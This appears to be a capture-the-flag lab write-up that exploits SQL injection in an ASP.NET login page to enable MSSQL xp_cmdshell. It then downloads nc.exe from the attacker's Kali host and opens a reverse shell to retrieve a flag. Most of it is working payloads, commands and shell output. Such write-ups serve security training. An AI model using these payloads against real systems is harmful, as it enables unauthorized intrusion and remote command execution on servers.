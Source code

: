 ```yaml
---
tags:
  - Windows
  - MSSql
---
```

Perfom nmap scan on target IP to identify services.
`sudo nmap -sS -v [target IP] -p-`

Enumerate the HTTP service at port 80.

First, identify that there is a SQLi vulnerability in the `ctl00%24ContentPlaceHolder1%24UsernameTextBox` parameter of the page `/login.aspx`.

Since we know that the target is running Windows (`Server: Microsoft-IIS/10.0` response header), guess that it is running MSSQL.

Use the standard method to obtain RCE in MSSQL by replacing the value of `ctl00%24ContentPlaceHolder1%24UsernameTextBox` with the following in order:
`';EXEC+sp_configure+'show+advanced+options',+1;--`
`';RECONFIGURE;--`
`';EXEC+sp_configure+"xp_cmdshell",+1;--`
`';RECONFIGURE;--`

Then, commands can be executed by:
`';EXEC+xp_cmdshell+'[insert Windows command here]';+--+//`

To get reverse shell, first download nc.exe from our Kali machine to the target:
`';EXEC+xp_cmdshell+'powershell+-c+"iwr+-uri+http://192.168.45.205:4444/nc.exe+-Outfile+c:/windows/temp/nc.exe"';+--+//`

Then, start the listener on Kali:
`nc -nlvp 4444`

Finally, start our reverse shell:
`';EXEC+xp_cmdshell+'c:/windows/temp/nc.exe+-e+cmd.exe+192.168.45.205+4444';+--+//`

From previous errors returned by the SQLi, we know that the web root is located at `c:\inetpub\wwwroot\`. 

From previous labs in the same module, we know that the flag should be located in the web root. Let's get the flag using our reverse shell.
```
└─$ nc -nlvp 4444             
listening on [any] 4444 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.123.50] 56324
Microsoft Windows [Version 10.0.20348.740]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress

C:\Windows\system32>cd c:\inetpub\wwwroot\
cd c:\inetpub\wwwroot\

c:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB0-F9D1

 Directory of c:\inetpub\wwwroot

11/25/2024  09:27 AM    <DIR>          .
07/19/2022  07:05 PM    <DIR>          ..
07/14/2022  02:29 PM             8,584 about.aspx
07/19/2022  07:07 PM    <DIR>          css
07/14/2022  04:23 PM            18,196 default.aspx
07/05/2022  12:11 PM               273 default.cs
07/14/2022  02:25 PM             8,916 doctors.aspx
07/05/2022  12:09 PM               327 error.aspx
07/05/2022  12:09 PM               246 error.cs
11/25/2024  09:27 AM                78 flag.txt
07/19/2022  07:07 PM    <DIR>          fonts
07/19/2022  07:07 PM    <DIR>          images
07/19/2022  07:07 PM    <DIR>          js
07/14/2022  04:37 PM             2,925 login.aspx
02/02/2023  01:50 PM             2,426 login.cs
07/19/2022  07:07 PM    <DIR>          master
07/14/2022  02:28 PM            11,765 news.aspx
07/14/2022  02:29 PM             9,028 protect.aspx
07/19/2022  07:07 PM    <DIR>          scss
07/12/2022  04:31 PM             1,356 web.config
              12 File(s)         64,120 bytes
               8 Dir(s)  13,217,271,808 bytes free

c:\inetpub\wwwroot>cat flag.txt
cat flag.txt
'cat' is not recognized as an internal or external command,
operable program or batch file.

c:\inetpub\wwwroot>type flag.txt
type flag.txt
OS{55ad5f2156d0b78aa1468d70d7eb8773}
```

